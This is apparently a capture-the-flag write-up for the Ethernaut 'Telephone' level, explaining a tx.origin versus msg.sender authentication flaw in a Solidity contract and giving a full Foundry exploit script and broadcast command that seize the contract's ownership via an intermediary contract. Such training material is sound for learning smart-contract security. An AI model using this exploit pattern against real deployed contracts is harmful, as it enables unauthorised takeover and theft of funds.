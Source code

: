 ```yaml
---
title: 'Telephone - The Ethernaut'
cover: https://ethernaut.openzeppelin.com/imgs/Level4.svg
categories: ["ctf"]
tags: ["blockchain","ethernaut"]
date: 2025-09-17
lastmod: 2025-09-17
---
```


## Challenge Overview

In this level, the goal is to claim ownership of the Telephone contract. The contract appears to have a safeguard that prevents direct ownership changes, but it uses a flawed authentication check that can be bypassed by calling through an intermediary contract.

---

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

---

## Exploit Explanation

The vulnerability lies in the difference between `tx.origin` and `msg.sender`:

```solidity
if (tx.origin != msg.sender) {
    owner = _owner;
}
```

* `tx.origin` refers to the **original externally owned account (EOA)** that initiated the transaction
* `msg.sender` refers to the **immediate caller** of the function

When you call the contract directly from your wallet, both `tx.origin` and `msg.sender` are your address, so the condition fails.

However, if you call through an intermediary contract:
* `tx.origin` remains your EOA address (the transaction originator)
* `msg.sender` becomes the address of your intermediary contract

This creates the required inequality (`tx.origin != msg.sender`) that allows the ownership change.

The exploit involves:
1. Deploying an attacker contract
2. Calling the attacker contract's exploit function
3. The attacker contract calls `changeOwner()` on the Telephone contract, creating the necessary `tx.origin != msg.sender` condition

---

## Exploit Script

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Telephone.sol";

contract Attack {
    Telephone public telephoneInstance;
    address evilOwner;

    constructor(Telephone _telephoneInstance, address _evilOwner) {
        telephoneInstance = _telephoneInstance;
        evilOwner = _evilOwner;
    }

    function exploit() public {
        telephoneInstance.changeOwner(evilOwner);
    }
}

contract TelephoneSolution is Script {
    Telephone public telephoneInstance = Telephone(<YOUR_INSTANCE>);

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        
        // Deploy attacker contract
        Attack attacker = new Attack(
            telephoneInstance,
            vm.envAddress("MY_ADDRESS")
        );
        
        // Execute the exploit
        attacker.exploit();
        
        // Verify the results
        console.log("The owner of the contract is:", telephoneInstance.owner());
        console.log("My address is:", vm.envAddress("MY_ADDRESS"));
        
        vm.stopBroadcast();
    }
}
```

---

## Proof of Concept (PoC)

Execute the exploit with Foundry:

```bash
forge script script/TelephoneSolution.s.sol --rpc-url $SEPOLIA_URL --tc TelephoneSolution --broadcast
```